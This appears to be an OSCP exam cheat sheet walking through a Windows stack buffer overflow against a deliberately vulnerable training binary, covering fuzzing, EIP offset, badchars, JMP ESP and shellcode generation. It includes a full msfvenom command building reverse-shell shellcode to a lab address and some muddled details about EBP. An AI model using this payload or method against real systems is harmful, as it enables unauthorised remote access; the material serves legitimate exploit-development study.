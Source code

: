 # OSCP Buffer Overflow Cheat Sheet

The exploitation of the stack buffer overflow in the OSCP exam is based on Windows 32-bit systems.

In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the connect.py script to verify the application's response.

After this step, we will run the fuzzing.py script to identify the point that the application will crack. But before that, on your Windows, attach the application to the Immunity Debugger.

## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string of strings with the pattern_create, from the MSF suite

msf-pattern_create -l 1024

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138

Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

 0x080416BF to "\xBF\x16\x04\x08"
 
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 
 The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow

